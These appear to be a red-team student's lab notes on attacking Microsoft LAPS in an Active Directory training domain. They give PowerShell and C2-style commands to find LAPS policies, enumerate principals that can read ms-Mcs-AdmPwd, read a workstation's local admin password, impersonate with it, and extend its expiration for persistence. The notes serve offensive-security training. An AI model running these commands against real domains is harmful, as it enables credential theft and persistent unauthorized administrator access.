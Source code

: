 # Local Administrator Password Solution Notes

Tools:
[GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser)

can check locally for files
```
ls C:\Program Files\LAPS\CSE
```

GPO search
```
powershell Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl
```

or computer objects with the ms-Mcs-AdmPwdExpirationTime property is not null
```
powershell Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName
```

we can download the policy of the GPO object
```
ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{<GPO>}\Machine
download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{<GPO>}\Machine\Registry.pol
```

offline on attacker machine
```
Parse-PolFile .\Desktop\Registry.pol
```


**Reading ms-Mcs-AdmPwd**
Tools:
[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

we can discover principals who can read this password
```
powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier
or:
powershell-import C:\Tools\LAPSToolkit\LAPSToolkit.ps1
powershell Find-LAPSDelegatedGroups
```

To get a computer's password, simply read the attribute.
```
powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd
abuse:
make_token .\LapsAdmin <password>
```

**Password Expiration Protection**

If the policy setting is left "not configured" in the GPO, then password expiration protection is disabled by default.
Since we were able to compromise WKSTN-1 using its LAPS password, we can set its expiration long into the future as a form of persistence.

```
powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
```
where 133101494718702551 is Thursday, 13 October 2022 15:44:31 GMT
use this to create them: (https://www.epochconverter.com/ldap)

to push out 10 years 
```
powershell Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
```

**LAPS Backdoors*

This module will demonstrate this idea using the LAPS PowerShell cmdlet Get-AdmPwdPassword.  If installed on a machine, the LAPS PowerShell modules can be found under C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS









